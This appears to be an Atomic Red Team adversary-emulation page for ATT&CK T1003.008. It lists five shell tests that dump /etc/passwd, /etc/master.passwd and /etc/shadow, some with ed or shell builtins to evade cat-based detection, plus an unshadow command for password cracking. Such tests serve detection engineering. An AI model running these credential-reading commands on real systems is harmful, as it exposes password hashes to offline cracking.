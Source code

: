 ```yaml
---
tags: [T1003_008, atomic_test]
filename: "[[T1003.008|T1003.008 - OS Credential Dumping: /etc/passwd, /etc/master.passwd and /etc/shadow]]"
---
```


# T1003.008 - OS Credential Dumping: /etc/passwd, /etc/master.passwd and /etc/shadow
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1003/008)
<blockquote>Adversaries may attempt to dump the contents of <code>/etc/passwd</code> and <code>/etc/shadow</code> to enable offline password cracking. Most modern Linux operating systems use a combination of <code>/etc/passwd</code> and <code>/etc/shadow</code> to store user account information including password hashes in <code>/etc/shadow</code>. By default, <code>/etc/shadow</code> is only readable by the root user.(Citation: Linux Password and Shadow File Formats)

The Linux utility, unshadow, can be used to combine the two files in a format suited for password cracking utilities such as John the Ripper:(Citation: nixCraft - John the Ripper) <code># /usr/bin/unshadow /etc/passwd /etc/shadow > /tmp/crack.password.db</code>
</blockquote>

## Atomic Tests

- [Atomic Test #1 - Access /etc/shadow (Local)](#atomic-test-1---access-etcshadow-local)

- [Atomic Test #2 - Access /etc/master.passwd (Local)](#atomic-test-2---access-etcmasterpasswd-local)

- [Atomic Test #3 - Access /etc/passwd (Local)](#atomic-test-3---access-etcpasswd-local)

- [Atomic Test #4 - Access /etc/{shadow,passwd,master.passwd} with a standard bin that's not cat](#atomic-test-4---access-etcshadowpasswdmasterpasswd-with-a-standard-bin-thats-not-cat)

- [Atomic Test #5 - Access /etc/{shadow,passwd,master.passwd} with shell builtins](#atomic-test-5---access-etcshadowpasswdmasterpasswd-with-shell-builtins)


<br/>

## Atomic Test #1 - Access /etc/shadow (Local)
/etc/shadow file is accessed in Linux environments

**Supported Platforms:** Linux


**auto_generated_guid:** 3723ab77-c546-403c-8fb4-bb577033b235





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where captured results will be placed | path | /tmp/T1003.008.txt|


#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
sudo cat /etc/shadow > #{output_file}
cat #{output_file}
```

#### Cleanup Commands:
```bash
rm -f #{output_file}
```





<br/>
<br/>

## Atomic Test #2 - Access /etc/master.passwd (Local)
/etc/master.passwd file is accessed in FreeBSD environments

**Supported Platforms:** Linux


**auto_generated_guid:** 5076874f-a8e6-4077-8ace-9e5ab54114a5





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where captured results will be placed | path | /tmp/T1003.008.txt|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo cat /etc/master.passwd > #{output_file}
cat #{output_file}
```

#### Cleanup Commands:
```sh
rm -f #{output_file}
```





<br/>
<br/>

## Atomic Test #3 - Access /etc/passwd (Local)
/etc/passwd file is accessed in FreeBSD and Linux environments

**Supported Platforms:** Linux


**auto_generated_guid:** 60e860b6-8ae6-49db-ad07-5e73edd88f5d





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where captured results will be placed | path | /tmp/T1003.008.txt|


#### Attack Commands: Run with `sh`! 


```sh
cat /etc/passwd > #{output_file}
cat #{output_file}
```

#### Cleanup Commands:
```sh
rm -f #{output_file}
```





<br/>
<br/>

## Atomic Test #4 - Access /etc/{shadow,passwd,master.passwd} with a standard bin that's not cat
Dump /etc/passwd, /etc/master.passwd and /etc/shadow using ed

**Supported Platforms:** Linux


**auto_generated_guid:** df1a55ae-019d-4120-bc35-94f4bc5c4b0a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where captured results will be placed | path | /tmp/T1003.008.txt|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
unamestr=$(uname)
if [ "$unamestr" = 'Linux' ]; then echo -e "e /etc/passwd\n,p\ne /etc/shadow\n,p\n" | ed > ${output_file}; elif [ "$unamestr" = 'FreeBSD' ]; then echo -e "e /etc/passwd\n,p\ne /etc/master.passwd\n,p\ne /etc/shadow\n,p\n" | ed > ${output_file}; fi
```

#### Cleanup Commands:
```sh
rm -f #{output_file}
```





<br/>
<br/>

## Atomic Test #5 - Access /etc/{shadow,passwd,master.passwd} with shell builtins
Dump /etc/passwd, /etc/master.passwd and /etc/shadow using sh builtins

**Supported Platforms:** Linux


**auto_generated_guid:** f5aa6543-6cb2-4fae-b9c2-b96e14721713





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where captured results will be placed | path | /tmp/T1003.008.txt|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
testcat(){ (while read line; do echo $line >> #{output_file}; done < $1) }
[ "$(uname)" = 'FreeBSD' ] && testcat /etc/master.passwd
testcat /etc/passwd
testcat /etc/shadow
```

#### Cleanup Commands:
```sh
rm -f #{output_file}
```





<br/>
